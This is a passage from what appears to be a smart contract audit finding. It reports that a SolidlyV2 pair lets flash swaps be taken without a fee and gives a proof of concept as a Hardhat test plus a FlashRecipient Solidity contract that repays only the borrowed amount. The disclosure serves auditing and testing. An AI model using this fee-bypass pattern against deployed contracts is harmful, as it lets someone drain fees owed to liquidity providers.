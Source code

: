 **Impact:** This has a high likelihood, but it is up to the project to determine the impact of being able to take flash swaps for free.

**Proof of Concept:** Add this test to `MultiTest.js`:
```javascript
it("charges no fee for flashloans", async function () {
const { user1, test0, test1, router, pair } = await loadFixture(deploySolidlyV2Fixture);

let token0 = test0;
let token1 = test1;


// Approve tokens for liquidity provision
await token0.connect(user1).approve(router.address, ethers.constants.MaxUint256);
await token1.connect(user1).approve(router.address, ethers.constants.MaxUint256);

// Provide liquidity
await router.connect(user1).addLiquidity(
  token0.address,
  token1.address,
  ethers.utils.parseUnits("100", 18),
  ethers.utils.parseUnits("100", 18),
  0,
  0,
  user1.address,
  ethers.constants.MaxUint256
);

const FlashRecipient = await ethers.getContractFactory("FlashRecipient");
const flashRecipient = await FlashRecipient.deploy(token0.address, pair.address);

// doesn't revert
await flashRecipient.takeFlashloan();
});
```

with this file in `contracts/test/FlashRecipient.sol`:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {SolidlyV2Pair} from "../SolidlyV2Pair.sol";
import {IERC20} from "./IERC20.sol";

contract FlashRecipient {

    IERC20 public token0;
    SolidlyV2Pair public pair;

    constructor(address _token0, address _pair) {
        token0 = IERC20(_token0);
        pair = SolidlyV2Pair(_pair);
    }

    function takeFlashloan() external {
        pair.swap(1e18, 0, address(this), "data");
    }

    function solidlyV2Call(address , uint256 amount0Out, uint256, bytes memory) external returns (bool) {
        // no fee being paid
        token0.transfer(msg.sender, amount0Out);
        return true;
    }
}
```